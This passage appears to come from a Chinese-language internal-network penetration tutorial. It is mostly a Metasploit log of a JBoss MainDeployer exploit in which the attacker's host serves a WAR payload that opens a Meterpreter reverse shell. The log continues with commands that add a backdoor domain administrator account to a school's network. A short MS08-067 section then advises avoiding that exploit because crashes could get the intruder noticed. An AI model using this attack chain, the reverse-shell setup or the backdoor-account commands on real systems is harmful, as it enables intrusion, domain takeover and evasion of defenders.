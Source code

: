 ```
[*] Started reverse handler on 192.168.5.233:4444
[*] Sorry, automatic target detection doesn't work with HEAD requests 
[*] Automatically selected target "Java Universal" 
[*] Starting up our web service on http://192.168.5.233:1337/HlusdqEcokvXH.war ... 
[*] Using URL: http:// 192.168.5.233:1337/HlveuqEzrovXH.war 
[*] Asking the JBoss server to deploy (via MainDeployer) http://192.168.5.233:1337/HlusdqEcokvXH.war [*] Sending the WAR archive to the server... 
[*] Sending the WAR archive to the server... 
[*] Waiting for the server to request the WAR archive.... 
[*] Shutting down the web service... 
[*] Executing HlusdqEcokvXH... 
[+] Successfully triggered payload at '/HlusdqEcokvXH/ewNYTEdFnYdcaOl.jsp' 
[*] Undeploying HlusdqEcokvXH... 
[*] Sending stage (30355 bytes) to 192.168.5.159 
[*] Meterpreter session 1 opened (192.168.5.233:4444 -> 192.168.5.20:4209) at 2013-09-15 19:00:06 -0600

meterpreter > sysinfo 
Computer : BHHSMOFF011 
OS : Windows 2003 5.2 (x86) 
Meterpreter : java/java

meterpreter > shell 
Process 1 created. 
Channel 1 created. 
Microsoft Windows XP [Version 5.1.2600] 
(C) Copyright 1985-2001 Microsoft Corp.

C:\DELLBAC\EJBContainer\bin>whoami 
whoami 
beaconhillshigh\backup_admin

C:\>net user twadmin $piD3rsRul3! /add /domain 
net user twadmin $piD3rsRul3! /add /domain 
The request will be processed at a domain controller for domain beaconhillshigh.edu.

The command completed successfully.

C:\>net group "Domain Admins" twadmin /add /domain 
net group "Domain Admins" twadmin /add /domain 
The request will be processed at a domain controller for domain beaconhillshigh.edu.

The command completed successfully. 
```

## 3.MS08-067

* * *

这个漏洞已经超过 4 年了,但是内网中还是有很多机器没有打补丁,影响的有(Windows Server 2000, Windows Server 2003, and Windows XP),不过说实话,我内网渗透的过程中很少用 MS08-067,因为溢出不好,有可能造成 DOS,被人发现了,就不好了,你懂得.
